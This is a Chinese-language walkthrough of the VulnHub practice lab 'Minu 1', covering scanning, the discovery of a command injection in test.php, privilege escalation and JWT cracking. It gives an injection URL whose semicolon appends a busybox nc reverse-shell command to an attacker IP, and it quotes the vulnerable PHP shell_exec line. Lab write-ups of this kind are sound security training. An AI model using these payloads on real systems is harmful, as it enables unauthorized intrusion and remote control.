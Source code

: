 # Minua  
https://www.vulnhub.com/entry/minu-1,235/
## 服务发现和信息收集    
### 扫描信息  
```
nmap -PR 192.168.1.*  
nmap -A  -p 1-65535 192.168.1.65 
```      
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200223202042.png)  
只开启了80端口，很让人疑惑，那登录吧  
**扫描目录**  
```
python3 dirsearch.py -e php -u http://192.168.1.65/
```  
存在一个test.php  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200223202403.png)  
打开这个网页里提示了本地的浏览器端的数据  
点击最下面的Read last visitor data的功能是查询之前的访问记录  
其中文件包含了这个文件
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200223202444.png)  

**抓包**  
抓包下来也是十分正常的包，那么之前的本地文件包含问题  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200223202837.png)  
**本地文件包含**  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200223211254.png) 
汗~  
好像不存在LFI啊！ 
 **通用漏洞**  
 因为只有apache的信息所以搜索apache的漏洞  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200223215457.png)  
 ***  
 看了下wp，原来是来自于命令执行漏洞  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200223215745.png)  
 那么直接在其中输入反弹  shell吧  
 
## 漏洞利用  
[Linux二进制提权](https://gtfobins.github.io/gtfobins/busybox/)  
使用busybox进行提权  
```  
直接在网站当中执行的命令是 busybox nc 192.168.1.39 1234 -e sh -i   
busybox 后面直接执行命令 -e 是返回的程序 -i 是交互式地进行  


http://192.168.1.65/test.php？file=default.php;busybox%20nc%20192.168.1.39%201234%20-e%20sh%20-i
```   
返回了一个可交互的shell  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200223222132.png)  
使用python3返回的交互式shell  
``` 
 python3 -c 'import pty; pty.spawn("/bin/bash")'
```   
寻找s位的命令  
```
find / -perm -u=s -type f 2>/dev/null   
```
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200223222810.png)
**在/home/bob发现一个隐藏文件**  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200223223629.png)  
直接使用john进行破解  
```
leafpad x #写入 
john x
```
 ***
 破解出来算我输，原来是JWT文件（新手那里一看这个知道是JWT？）  
 直接使用JWT工具进行破解 
[JWT工具](https://github.com/brendan-rius/c-jwt-cracker)    
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200223225606.png)  
提权成功结束  


## 总结  
利用前端的命令执行，配合上受限的shell返回一个普通的shell  
翻看文件拿到一个JWT解密之后就得到了root密码  

**提出问题**  
busybox 绕过的由来以及是否存在其他方法进行绕过
JWT的解密以及使用场景
如果不能产生交互式shell 如何进行下一步？
[另外一种思路](https://hackso.me/minu-1-walkthrough/)  
查看出现问题的代码  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200229210750.png)
<?php echo shell_exec('cat ' . $_GET['file']);?>
所以使用;可以使得命令截断  
